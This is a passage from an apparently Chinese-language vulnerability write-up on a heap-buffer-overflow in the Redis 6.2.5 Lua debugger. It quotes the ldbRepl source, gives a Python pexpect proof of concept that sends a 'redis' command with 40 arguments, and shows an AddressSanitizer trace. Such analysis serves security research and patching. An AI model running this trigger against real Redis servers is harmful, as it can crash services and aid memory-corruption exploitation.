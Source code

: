 ``` c

    /* We continue processing commands until a command that should return
     * to the Lua interpreter is found. */
    while(1) {

        ...
        
        /* Execute the command. */
        if (!strcasecmp(argv[0],"h") || !strcasecmp(argv[0],"help")) {
            ...
        } else if (!strcasecmp(argv[0],"s") || !strcasecmp(argv[0],"step") ||
                   !strcasecmp(argv[0],"n") || !strcasecmp(argv[0],"next")) {
            ldb.step = 1;
            break;

        ...

        } else if (argc > 1 &&
                   (!strcasecmp(argv[0],"r") || !strcasecmp(argv[0],"redis"))) {
            // ldb的一个命令
👉          ldbRedis(lua,argv,argc);
            ldbSendLogs();
        ...
    }
    ...
}
```
### 四、PoC
根据上述分析，通过反复尝试发现，40个参数即可触发漏洞，构造PoC如下：
``` python
import pexpect

cli = "src/redis-cli --ldb --eval rand.lua"
proc = pexpect.spawn(cli)
proc.expect("debugger>")

cmd = "redis"
arg = " 1"
num = 40
for i in range(num):
    cmd += arg

proc.sendline(cmd)
proc.interact()
```
ASAN追踪漏洞，与上述分析一致。
``` shell
=43633==ERROR: AddressSanitizer: heap-buffer-overflow on address 0x517000000350 at pc 0x562ff46d6e35 bp 0x7ffd931e6920 sp 0x7ffd931e6918
WRITE of size 8 at 0x517000000350 thread T0
#0 0x562ff46d6e34 in lua_pushlstring /opt/redis-6.2.5/deps/lua/src/lapi.c:448
#1 0x562ff45e44f6 in ldbRedis /opt/redis-6.2.5/src/scripting.c:2563
#2 0x562ff45e551a in ldbRepl /opt/redis-6.2.5/src/scripting.c:2694
#3 0x562ff45e5c5b in luaLdbLineHook /opt/redis-6.2.5/src/scripting.c:2767
#4 0x562ff46e1ae2 in luaD_callhook /opt/redis-6.2.5/deps/lua/src/ldo.c:198
#5 0x562ff4702bce in traceexec /opt/redis-6.2.5/deps/lua/src/lvm.c:75
#6 0x562ff4706057 in luaV_execute /opt/redis-6.2.5/deps/lua/src/lvm.c:394
#7 0x562ff46e3ad4 in luaD_call /opt/redis-6.2.5/deps/lua/src/ldo.c:378
#8 0x562ff46d9884 in f_call /opt/redis-6.2.5/deps/lua/src/lapi.c:800
#9 0x562ff46e0bdd in luaD_rawrunprotected /opt/redis-6.2.5/deps/lua/src/ldo.c:116
#10 0x562ff46e4728 in luaD_pcall /opt/redis-6.2.5/deps/lua/src/ldo.c:464
#11 0x562ff46d9a8e in lua_pcall /opt/redis-6.2.5/deps/lua/src/lapi.c:821
#12 0x562ff45de99d in evalGenericCommand /opt/redis-6.2.5/src/scripting.c:1598
```